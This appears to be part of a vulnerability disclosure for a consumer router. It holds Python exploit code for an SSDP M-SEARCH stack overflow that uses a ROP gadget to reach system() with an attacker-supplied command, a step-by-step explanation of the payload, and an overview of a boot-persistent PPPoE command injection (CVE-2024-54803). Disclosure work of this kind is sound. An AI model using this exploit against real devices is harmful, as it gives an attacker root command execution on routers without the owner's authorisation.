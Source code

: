 ```py 

payload_pt1 = b'Z' * 304 
payload_pt2 = b'A' * 4  # R4 
payload_pt2 += b'B' * 4  # R5 - command str will go here 
payload_pt2 += b'C' * 4  # R6 
payload_pt2 += b'D' * 4  # R7 
payload_pt2 += b'E' * 4  # R8 
payload_pt2 += b'\xdc\xd4\x02'  # 0x2d4dc mov r0, r5 {var_9c} ; bl system 
 
 
def send_msearch_pwn(target_port=1900): 
    global payload_pt1 
    global payload_pt2 
 
    ret = p32(0xbeffeb20 + (len(cmd.encode()) * 3) + 1) 
    payload_pt2 = payload_pt2.replace(b'BBBB', ret) 
 
    message = ( 
                      payload_pt1 + b'\r\n' + 
                      payload_pt2 + b'\r\n' + 
                      b'MAN:"ssdp:discover"\r\n' 
                      b'MX:2\r\n' 
                      b'\r\n' 
              ) + p32(0xdeadbeef) + (b" " * 255) + cmd.encode() 
 
    with socket.socket(socket.AF_INET, socket.SOCK_DGRAM, socket.IPPROTO_UDP) as sock: 
        sock.settimeout(2) 
        sock.sendto(message, (host, target_port)) 
```

In this case, a suitable ROP gadget at 0x2d4dc (mov r0, r5 ; bl system) allows us to pivot execution to system() with a controlled argument. The payload is structured as follows: 
1. Padding: The buffer is filled with a controlled pattern ('Z' * 304) to align with the saved return address. 
2. Register Control: Overwrites R4, R5, R6, R7, and R8. 
3. ROP Gadget: Redirects execution to 0x2d4dc, where mov r0, r5 moves our controlled value into r0, followed by bl system, executing the attacker-supplied command.

<a name="803"></a>

# PPPOE_PEER_MAC Authenticated Command Injection (Boot Persistent) (CVE-2024-54803)

CVE-2024-54803 is an authenticated command injection vulnerability affecting the router's PPPoE configuration. When exploited, this vulnerability allows authenticated attackers to execute arbitrary system commands with root privileges on the affected device. The injected commands persist across device reboots as they are stored in NVRAM, making this a particularly severe vulnerability that provides attackers with permanent access until manually remediated. This can lead to complete compromise of the router, potentially enabling network traffic interception, credential theft, and use of the device as a pivot point for attacking other systems on the network 
